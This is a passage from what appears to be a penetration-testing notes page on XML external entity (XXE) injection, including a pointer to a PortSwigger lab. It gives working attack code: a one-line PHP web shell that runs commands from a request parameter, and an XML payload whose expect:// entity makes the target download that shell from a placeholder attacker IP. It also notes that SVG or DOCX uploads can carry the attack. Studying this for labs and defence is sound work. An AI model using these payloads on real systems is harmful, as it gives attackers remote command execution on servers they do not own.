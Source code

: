We can achieve RCE by exploiting a URL-referenced DTD.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}

{% tab title="2. XXEI" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

We can also leverage a[ **file upload** functionality by uploading **XML-based formats**](xxei.md#svg-xxei-greater-than-rce) (`svg`, `docx`). In this case we must ensure to set `Content-Type: text/svg+xml`.

## Examples

### XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE using external entities to retrieve files_](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) _lab._&#x20;

The `Check Stock` feature process XML data and it is vulnerable to XXE injection (Figure 4).

<figure><img src="../../.gitbook/assets/web_xxe_1.png" alt=""><figcaption><p>Figure 4: Exfiltrating sensitive data via an XXE injection.</p></figcaption></figure>


[^1]: Point Of View